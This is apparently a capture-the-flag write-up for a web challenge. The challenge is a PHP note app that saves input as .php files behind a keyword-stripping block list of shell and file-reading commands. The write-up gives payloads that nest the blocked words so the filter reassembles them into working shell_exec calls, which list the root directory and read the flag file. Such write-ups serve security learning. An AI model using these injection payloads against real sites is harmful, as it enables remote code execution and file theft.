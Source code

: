 ```yaml
---
layout: writeup
title: PHat Pottomed Girls
ctf: Killer Queen CTF
points: 189
solves: 249
tags: 
    - web
date: 2021-11-01
description: |-
    Now it's attempt number 3 and this time with a Queen reference!
    (flag is in the root directory)
flag: flag{wait_but_i_fixed_it_after_my_last_two_blunders_i_even_filtered_three_times_:(((}
---
```

<details>
    <summary>tl;dr</summary>
    
</details>

***

## Introduction

We are given a website where we can type in a note that is then stored as a php-file and can be viewed again.

We are also given the source code which runs the code

```php
<?php
$newnote = $_POST["notewrite"];

//3rd times the charm and I've learned my lesson. Now I'll make sure to filter more than once :)
$notetoadd = filter($newnote);
$notetoadd = filter($notetoadd);
$notetoadd = filter($notetoadd);

$filename = generateRandomString();
array_push($_SESSION["notes"], "$filename.php");
file_put_contents("$filename.php", $notetoadd);
?>
```

So it takes our input, performs a filter function three times, and stores the result in a PHP file.

We take a look at the filter function:

```php
function filter($originalstring) {
    $notetoadd = str_replace("<?php", "", $originalstring);
    $notetoadd = str_replace("?>", "", $notetoadd);
    $notetoadd = str_replace("<?", "", $notetoadd);
    $notetoadd = str_replace("flag", "", $notetoadd);

    $notetoadd = str_replace("fopen", "", $notetoadd);
    $notetoadd = str_replace("fread", "", $notetoadd);
    $notetoadd = str_replace("file_get_contents", "", $notetoadd);
    $notetoadd = str_replace("fgets", "", $notetoadd);
    $notetoadd = str_replace("cat", "", $notetoadd);
    $notetoadd = str_replace("strings", "", $notetoadd);
    $notetoadd = str_replace("less", "", $notetoadd);
    $notetoadd = str_replace("more", "", $notetoadd);
    $notetoadd = str_replace("head", "", $notetoadd);
    $notetoadd = str_replace("tail", "", $notetoadd);
    $notetoadd = str_replace("dd", "", $notetoadd);
    $notetoadd = str_replace("cut", "", $notetoadd);
    $notetoadd = str_replace("grep", "", $notetoadd);
    $notetoadd = str_replace("tac", "", $notetoadd);
    $notetoadd = str_replace("awk", "", $notetoadd);
    $notetoadd = str_replace("sed", "", $notetoadd);
    $notetoadd = str_replace("read", "", $notetoadd);
    $notetoadd = str_replace("system", "", $notetoadd);

    return $notetoadd;
}
```

This looks for a number of patterns and remove them if found. If we can write a note with the contents `<?php echo shell_exec("cat /flag") ?>`, then we would get the flag when visiting the note page.

What we can do to make sure our keywords aren't removed is, we can insert a keyword from later in the list within - then this will be removed and what we want stands back, e.g. inserting some `cat`s withing:

```
<cat?php echo shell_exec("cacatt /flacatg") ??>>
```
This will after one filter round become what we wanted. This trick can be applied any number of times, and we can input the following text, and see how it filters down:
```
<cacacattt?php echo shell_exec("cacacacatttt /flacacacatttg") ????>>>>
<cacatt?php echo shell_exec("cacacattt /flacacattg") ???>>>
<cat?php echo shell_exec("cacatt /flacatg") ??>>
<?php echo shell_exec("cat /flag") ?>
```

This idea is good but doesn't immediately work, so perhaps the flag is named something else. We can just run an `ls` command on the root to find it:

```
<cacacattt?php echo shell_exec("ls /") ????>>>>
```
We find the file `flag.php`, so we can run
```
<cacacattt?php echo shell_exec("cacacacatttt /flacacacatttg.php") ????>>>>
```
to get the flag.